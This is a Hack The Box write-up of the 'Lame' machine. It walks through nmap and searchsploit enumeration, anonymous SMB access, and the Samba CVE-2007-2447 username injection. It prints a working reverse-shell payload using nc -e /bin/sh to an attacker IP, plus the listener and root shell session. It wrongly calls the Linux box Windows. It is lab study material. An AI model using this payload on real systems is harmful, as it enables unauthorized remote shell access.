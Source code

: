 ```yaml
---
layout: post
title: "HTB - Lame"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```

I've just completed Lame from HTB! In my opinion, Lame is an easy box that provides a quick introduction to the Windows Operating System. Here is a quick writeup about how I solved this box. 

<!--more-->

## HTB - Lame
**Box** : Lame\
**IP Address** : 10.10.10.3\
**Operating System** : Windows

## Remarks

- While doing this box, I failed to realize that `Samba` has actually turned off SMBv1 support. Hence, I was met with a lot of connection errors when I attempted to pwn the box (And a lot of hair-tearing sessions!!)

## Enumeration
As with any other box, let's do a quick Nmap scan to identify the possible open ports. For this box, there is slight more open ports, 5 in fact - namely ports `21`, `22`, `139`, `445` and `3632`.

Port `21` belongs to an FTP server, port `22` belongs to an SSH server, port `3632` belongs to a distccd server while ports `139` and `445` belong to a netbios-ssn server. Both ports `139` and `445` uses Samba, but the main difference is the version of Samba used.

Firstly, we do a `searchsploit` for existing vulnerability to Port `21`, and we discovered that `vsftpd 2.3.4` running on Port `21` may be vulnearble to backdoor command execution. 

```bash
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remot | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service           | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/49757.py
vsftpd 3.0.3 - Remote Denial of Service    | multiple/remote/49719.py
------------------------------------------- ---------------------------------

```

To verify this, we will scan for the vulnerability using Nmap. Sadly, this port doesn't seem to be vulnerable to such a backdoor exploitation.

## Exploitation

Noticing that Ports `139` and `445` uses Samba and also knowing that Samba is a SMB networking protocol. We will now try to connect to the SMB server using the SMBv1 protocol, reason being that SMBv1 has more vulnerabilities and attack vectors for us to try. One thing to note though is that Samba has actually turned off its SMBv1 support, so we would have to supply `client min protocol=NT1` argument for it to work. At the same time, we also realize that we could log in to the server anonymously. 

```bash
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.10.3 --option='client min protocol=NT1'
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

Knowing that we can login to the Samba server without any credentials, we also found `CVE 2007-2447` exploit from `exploitdb` that allows the username parameter to be injected to run command in the SMB server. This could then be used to create a reverse shell to the attacker's machine. 

To do so, we will first have to create a listener on the attacker's machine
```bash
nc -nlvp 3000
```

Afterwards, all we have to do is to connect to the SMB client and send the metacharacters into the username with the reverse shell payload
```bash
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.3/tmp                                           1 ⚙
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.16.250 3000`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \>
```

### Obtaining the system flag

Afterwards a connection will be received on the attacker's machine. All we that is left to do is to stabilize the shell and obtain the system flag.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000              
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.3] 49928
python -c 'import pty; pty.spawn("bash")'
root@lame:/# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
```